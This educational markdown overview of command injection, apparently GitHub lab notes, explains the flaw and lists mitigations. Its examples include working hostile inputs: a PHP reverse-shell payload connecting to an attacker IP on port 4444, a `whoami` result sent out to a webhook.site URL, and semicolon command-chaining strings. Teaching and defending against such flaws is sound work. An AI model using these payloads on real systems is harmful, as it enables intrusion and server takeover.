 
# 🌐 Command Injection Overview

---

## ❓ What is Command Injection?

Command Injection is a critical security vulnerability that occurs when an application allows untrusted input to be executed as a command on the server’s operating system.  
This flaw enables attackers to manipulate commands to execute arbitrary actions on the server, potentially compromising data, gaining access, or taking over the system.

---

## 🛠️ Examples of Command Injection

### Example 1: Capturing System Information
- **Scenario:** Exploiting a network check feature by injecting system commands.
- **Input:**  
  ```
  https://webhook.site/08c29163-c569-4f1c-b964-503ad450e860/?q=`whoami`
  ```
- **Explanation:**  
  - The backticks (`) execute the `whoami` command, returning the username of the running process.  
  - Output: `www-data`, captured via Webhook.site.

---

### Example 2: Obtaining a Reverse Shell
- **Scenario:** Injecting commands into a vehicle redirection system to gain shell access.
- **Input:**  
  ```
  300)^2))}'; php -r '$sock=fsockopen("192.168.164.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#
  ```
- **Explanation:**  
  - The injected payload opens a reverse shell connection to the attacker’s machine using the `php` interpreter.
  - This demonstrates how unsanitized inputs can escalate from basic information gathering to full server control.

---

## 📡 Techniques for Exploiting Command Injection

### **1️⃣ Command Substitution**
- **Mechanism:** Using backticks (`) or `$()` to execute commands and substitute their output.  
- **Example:**  
  ```
  https://webhook.site/.../?q=`whoami`
  ```
- **Output:**  
  The server executes `whoami`, substitutes its output (`www-data`), and appends it to the URL.

---

### **2️⃣ Command Chaining**
- **Mechanism:** Using separators like `;` or `&&` to chain commands.  
- **Example:**  
  ```
  ; whoami;#
  ```
- **Explanation:**  
  - The semicolon (`;`) ends the current command and starts a new one.
  - The `#` comments out the rest of the input to prevent errors.

---

## 🔧 Why are Input Validation and Sanitization Critical?

Command injection vulnerabilities often arise due to the failure to validate or sanitize user inputs properly. Applications should:
1. **Use Parameterized Queries:** Avoid directly executing user input.
2. **Restrict Executable Commands:** Whitelist commands allowed to run in the application.
3. **Escape Dangerous Characters:** Sanitize special characters like `;`, `&`, `|`, and backticks (`).
4. **Use Secure APIs:** Prefer libraries that do not directly interact with the OS.

---

## 🎯 Real-World Implications of Command Injection

1. **Data Breaches:** Attackers can access sensitive files (e.g., `/etc/passwd`).
2. **System Compromise:** Escalation from information gathering to a full reverse shell can give attackers control over the system.
3. **Denial of Service:** Malicious commands can overload the system or crash services.

---

## 📝 Conclusion

Command injection is a powerful and dangerous vulnerability that exploits weak input validation.  
By analyzing examples like executing `whoami` or gaining a reverse shell, this overview highlights the severity and versatility of command injection attacks.  
**Mitigation:** Always sanitize and validate inputs to prevent such exploits.

---
